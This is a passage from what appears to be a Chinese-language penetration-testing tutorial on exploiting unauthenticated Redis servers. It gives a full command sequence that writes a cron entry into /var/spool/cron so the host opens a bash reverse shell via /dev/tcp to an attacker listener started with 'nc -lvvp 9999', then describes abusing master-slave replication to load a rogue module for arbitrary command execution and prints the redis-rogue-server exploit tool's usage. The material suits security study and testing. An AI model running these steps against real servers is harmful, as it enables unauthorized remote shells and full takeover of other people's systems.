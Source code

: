 ### 定时任务

也可以通过写入定时任务反弹Shell，获取权限

<a-checkbox checked>攻击机监听端口 </a-checkbox></br>

<a-checkbox checked>nc -lvvp 9999</a-checkbox></br>

```php
192.168.0.126:6379> set test2 "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.0.140/9999 0>&1\n\n"
OK
192.168.0.126:6379> config set dir /var/spool/cron
OK
192.168.0.126:6379> config set dbfilename root
OK
192.168.0.126:6379> save
OK
192.168.0.126:6379> 
```

![img](../../../.vuepress/public/img/1628603729549-61622428-de4c-4dbf-abdb-7ceb5c0d6240-20220415143203493.png)

### 主从复制

<a-checkbox checked>如果当把数据存储在单个Redis的实例中，当读写体量比较大的时候，服务端就很难承受。</a-checkbox></br>

<a-checkbox checked>为了应对这种情况，Redis就提供了主从模式，主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机</a-checkbox></br>

<a-checkbox checked>其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式</a-checkbox></br>

Redis未授权访问在4.x/5.0.5以前版本，我们可以使用主/从模式加载远程模块，通过动态链接库的方式执行任意命令。



关于漏洞原理请查看[Pavel Toporkov的分享](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

漏洞利用脚本: [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

```shell
➜ ./redis-rogue-server.py -h
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

Usage: redis-rogue-server.py [options]

Options:
  -h, --help           show this help message and exit
  --rhost=REMOTE_HOST  target host
  --rport=REMOTE_PORT  target redis port, default 6379
  --lhost=LOCAL_HOST   rogue server ip
  --lport=LOCAL_PORT   rogue server listen port, default 21000
```